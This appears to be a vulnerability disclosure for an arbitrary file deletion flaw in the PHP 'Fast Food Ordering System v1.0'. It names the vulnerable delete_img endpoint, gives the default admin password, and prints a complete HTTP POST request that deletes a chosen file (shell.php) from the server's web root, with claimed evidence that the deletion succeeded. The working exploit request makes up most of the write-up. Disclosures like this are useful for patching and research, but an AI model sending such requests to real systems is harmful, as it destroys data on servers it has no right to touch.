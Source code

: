 # Fast Food Ordering System v1.0 by oretnom23 has Delete any file

vendors: https://www.sourcecodester.com/php/15366/fast-food-ordering-system-phpoop-free-source-code.html

Vulnerability File: /ffos/classes/Master.php?f=delete_img

Vulnerability location: /ffos/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shell.php file in the root directory

```sql
POST /ffos/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/ffos/admin/?page=system_info
Cookie: PHPSESSID=rlr2a917ahfp4mc52mm9a7kvvm
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

path=C%3A%2Fxampp%2Fhtdocs%2Fffos%2Fshell.php
```

The file path needs to be encoded by url

![image](https://user-images.githubusercontent.com/54017627/171353532-53c80237-d831-4e9f-8683-df46b53c0cd8.png)

Currently, when we do not send a request to delete the shell.php file, the shell.php file is still in the root directory of the website

![image](https://user-images.githubusercontent.com/54017627/171353575-111c1b92-3ee4-441b-8755-2bb83d68b0f3.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.

![image](https://user-images.githubusercontent.com/54017627/171353637-8fe1f3c4-71b4-46aa-8717-016015200b27.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/171353689-cdd0740b-3a36-4bff-b65e-bd371425c084.png)
